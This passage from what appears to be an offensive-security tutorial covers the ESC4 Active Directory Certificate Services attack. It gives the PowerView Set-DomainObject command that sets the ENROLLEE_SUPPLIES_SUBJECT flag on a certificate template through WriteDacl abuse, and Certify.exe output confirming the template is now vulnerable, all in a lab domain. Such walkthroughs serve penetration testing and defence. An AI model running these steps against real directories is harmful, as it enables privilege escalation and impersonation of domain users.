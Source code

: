 `Authorized Signatures Required` is `0`.
Now we can issue certificate with the ESC4 template without any Authorized Signatures.


### Enabling SAN Specification
Similar to the Manager Approval requirement, SAN setting can be controlled by flag bits in `mspki-certificate-name-flag` attribute.
According to [Microsoft Docs](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-crtd/1192823c-d839-4bc3-9b6b-fa8c53507ae1), the `ENROLLEE_SUPPLIES_SUBJECT` flag bit is `0x00000001`. 
So, abusing WriteDacl, we can set the `ENROLLEE_SUPPLIES_SUBJECT` flag bit by `Set-DomainObject` function of PowerView:

```
PS C:\Tools> Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity ESC4 -XOR @{'mspki-certificate-name-flag'=1} -Verbose

VERBOSE: [Get-DomainSearcher] search base: LDAP://DC01.CONTOSO.LOCAL/CN=Certificate Templates,CN=Public Key
Services,CN=Services,CN=Configuration,DC=contoso,DC=local
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=ESC4)(name=ESC4)(displayname=ESC4))))
VERBOSE: [Set-DomainObject] XORing 'mspki-certificate-name-flag' with '1' for object ''
PS C:\Tools>
```

To avoid complications, it is preferable to use the `-XOR` option instead of the `-Set` option to edit the flag as above.
We can recover the setting by executing the same command.

The results can be verified using `Certify.exe`, etc.:

```
C:\Tools>Certify.exe find /vulnerable

--snip--

[!] Vulnerable Certificates Templates :

    CA Name                         : CA01.contoso.local\contoso-CA01-CA
    Template Name                   : ESC4
    Schema Version                  : 2
    Validity Period                 : 1 year
    Renewal Period                  : 6 weeks
    msPKI-Certificates-Name-Flag    : ENROLLEE_SUPPLIES_SUBJECT, SUBJECT_ALT_REQUIRE_UPN, SUBJECT_REQUIRE_DIRECTORY_PATH
    mspki-enrollment-flag           : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS, AUTO_ENROLLMENT
    Authorized Signatures Required  : 0
    Application Policies            : Encrypting File System
    pkiextendedkeyusage             : Encrypting File System
    Permissions
      Enrollment Permissions
        Enrollment Rights           : CONTOSO\Domain Admins         S-1-5-21-3654360273-254804765-2004310818-512
                                      CONTOSO\Domain Users          S-1-5-21-3654360273-254804765-2004310818-513
                                      CONTOSO\Enterprise Admins     S-1-5-21-3654360273-254804765-2004310818-519

--snip--
```
